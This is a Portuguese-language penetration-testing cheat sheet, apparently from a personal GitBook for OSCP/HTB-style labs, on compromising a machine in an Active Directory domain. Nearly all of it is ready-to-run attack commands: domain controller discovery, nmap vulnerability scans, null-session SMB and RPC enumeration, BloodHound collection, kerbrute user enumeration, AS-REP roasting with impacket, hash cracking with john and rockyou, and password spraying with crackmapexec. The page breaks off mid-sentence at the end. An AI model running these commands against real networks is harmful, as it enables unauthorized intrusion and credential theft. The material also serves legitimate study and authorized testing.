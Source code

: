 ```yaml
---
description: >-
  Nesse primeiro momento o objetivo é comoprometer uma máquina do domínio com as
  técnicas e comandos empregadas nesta página.
---
```


# Active Directory

## 1 - Enumerar IP dos DCs, portas/serviços e nome de domínio

### 1 - Obtém IP address do DC (domain controller)

Como primeiro objetivo temos que levar em conta a enumeração de portas/serviços por meio do nmap e enumerar nome do domínio, assim como o IP dos domains controllers:

### linux

```
nslookup -type=srv _ldap._tcp.dc._msdcs.redecorp.br
nslookup -type=srv _kerberos._tcp.EXMAPLE.COM
nslookup -type=srv _kpasswd._tcp.EXAMPLE.COM
nslookup -type=srv _ldap._tcp.EXAMPLE.COM
nslookup -type=srv _ldap._tcp.dc._msdcs.EXAMPLE.COM
```

#### windows

```
nslookup
set type=all
_ldap._tcp.dc._msdcs.redecorp.br
```

Outra opção seria:

<pre><code><strong>nltest /dclist:oscp.exam
</strong>
nltest /dclist:domainname
</code></pre>

Vale considerar que este útlimo comando só funciona se a máquina já está no domínio.

### 2 - Obtém Dominio

```python
enum4linux -a <hostname>
#uma outra opção seria:
enum4linux -a -A <hostname>
```

**atenção com este comando, porque o domínio que me retornou não foi o mesmo identificado no comando anterior.**

```python
crackmapexec smb <hostname>
```

### 3 - Obtém serviços

basic nmap TCP [nmap\_enum](https://app.gitbook.com/s/G7hJBZ74BeKBgUnukZ44/scripts/nmap\_enum)

```
sudo nmap_enum <hostname> | tee nmap_output.txt
```

basic nmap UDP

```
sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn <hostname> | tee nmap_udp_output.txt
```

All ports nmap

```
sudo nmap -p- -Pn -T5 -n <hostname> | tee nmap_fullportstcp_output.txt
```

```
sudo nmap -p- --max-retries 1 -Pn -T5 -n <hostname> | tee nmap_fullportstcp_output.txt
```

Vulns scan nmap

```
sudo nmap -sS --script vuln -n -T5 -Pn <hostname> -p <ports> | tee nmap_vulns.txt
```

Esta última porta pode ser vista com mais detalhes em:

[..](../ "mention")

Como exemplo mais comum encontrados nos cenários, segue as enumerações mais convenientes para os ambientes de ADs (mas nãoo se resume somente a isso, é necessário cosultar melhor as demais informações no link acima)...

### Enumerate shares null session

```python
smbclient -U '' -N -L <hostname>
```

```
crackmapexec smb <hostname> -u '' -p '' --shares
```

```
sudo nmap -p 445,139 -Pn -T5 <hostname> --script smb-enum-shares
```

**GUEST ACCESS**

```
smbclient -U 'guest%' -N -L <hostanme>
```

```
crackmapexec smb <hostname> -u '' -p '' --shares
```

### RPC null session

```
rpcclient -N -U '' <hostname>
```

```python
srvinfo
querydominfo
enumdomusers
enumdomgroups
querygroup 0x200
netshareenum
netshareenumall
```

### Enumerate LDAP

```
ldapsearch -x -H ldap://10.10.10.179 -s base
```

### Enumerar domínio

```
bloodhound-python -d <domain_name> -v --zip -c All -dc test.local -ns 10.10.10.1
```

## 2 - Enumeração de usuário de domínio

Aqui vale considerar que, por meio da enumeração devemos considerar os possíveis arquivos existentes que conseguimos obter e fazer possíveis nomes de usuários com esses conteúdos,. No demais, seguem comandos que podem nos auxiliar quanto a esta tarefa:

### Via Kerberos

```
kerbrute userenum -d <domain> --dc <hostname> users_temp.txt
```

```
kerbrute userenum --domain <domain> /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc <hostname>
```

```
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='test.local',userdb=usernames.txt <hostname>
```

### Via RPC

```
rpcclient -U <domain>/<username> <hostname>
```

```
rpcclient -U "DOMAIN\\" <hostnames> -N
```

```
enumdomusers
enumdomgroups
```

### Enum4linux

```
enum4linux -u <username> -p <password> -U 10.10.10.179
```

### Via SMB

```
crackmapexec smb <hostname> --users
```

### Ldapsearch

```
ldapsearch -x -H ldap://<hostname> -D '' -w '' -b "DC=<domain_name>,DC=<tld>"
```

### Via Web

Não existe um comando específico para obter noomes de usuários específicos, por motivos óbvios, porém, podemos gerar possíveis nomes de usuários com o cewl, com o seguinte comando:

```
cewl http://<hostname>/ > users_temp.txt
```

## 3 - Obter hashes de senha/senha ou exploits de serviços expostos e brute force

Este ponto é bem interessante, porque aqui temos várias possibilidades disponíveis e algumas delas deixarei documentado em uma outra página que depois deixarei o link. Mas para fins de AD, podemos considerar os principais que seriam:

### AS-REP Roasting

```
impacket-GetNPUsers -dc-ip 10.10.10.161 htb.local/ -usersfile users_temp.txt -format john -outputfile hashes_temp.txt
```

Se der sucesso:

```
john --format=krb5asrep -w /usr/share/wordlists/rockyou.txt hashes_temp.txt
```

### Exploração de serviço

Neste caso, devemos considerar outra página para conseguir algum tipo de exploração. De modo geral, são:

Web - SQLi

CVEs

Chaves expostas por meio de aplicações web

Exposição de senhas via GPP - Group.xml

### Password Spray

Aqui podemos aplicar algumas técnicas sendo elas user = password, mais os usuários que já temos no dicionário:

```
cat users.txt > passwords.txt
```

```
crackmapexec ldap hosts.txt -u users.txt -p P@ssword! --continue
    
crackmapexec smb hosts.txt -u users.txt -p passwords_test.txt --continue
    
crackmapexec winrm hosts.txt -u users.txt -p passwords_test.txt --continue
```

###

Depois disso precisamos enumerar o domínio. Aqui temos duas possibilidades, sendo elas com

####
